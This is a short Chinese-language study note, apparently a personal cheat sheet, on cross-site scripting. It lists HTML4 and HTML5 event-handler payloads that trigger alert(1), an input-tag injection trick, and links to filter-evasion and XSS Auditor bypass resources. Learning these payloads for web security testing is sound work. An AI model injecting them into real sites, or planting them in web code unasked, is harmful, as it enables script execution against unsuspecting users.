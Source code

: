 其他标签及事件 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

以下是一些 HTML 4 标签示例：

```python
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)" >
<form oninput=alert(1)><input></form>
<textarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
```

以下是一些HTML 5标签示例：

```python
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

## 注释符

对于 html 的注释符有两种写法，一种不对称的`<!-- -->`和另一种对称的`<!-- --!>`

# 特殊场景

## input 标签

插入点在 type 之前

`<input value="" type=image src onerror=alert(`xss`) "" type="hidden" >` 这样可以弹窗

但如果插入点在 type 之后就不行了，比如下面这个就不行了。

```
<input type="hidden" value="" type=image src onerror=alert(`xss`) "">
```



**html inline js 转义就是做无用功**

# 资料

```java
XSS过滤速查表：https://owasp.org/www-community/xss-filter-evasion-cheatsheet
XSS Auditor绕过：https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
浏览器逻辑漏洞？？？：https://github.com/Metnew/uxss-db
稍微也有点干货：https://www.cnblogs.com/linuxsec/articles/9216488.html
带一点修复方法，累了，看吐了，有空在看吧：https://blog.csdn.net/weixin_32562973/article/details/112770190      https://blog.csdn.net/change518/article/details/51024706/      
xss获取记住密码：http://www.vuln.cn/8054
xss总结？？敢叫这个名字？是不是有点东西：https://cloud.tencent.com/developer/article/1373688
xss游戏通关笔记xss-labs ： https://0verwatch.top/xss-game.html#
```

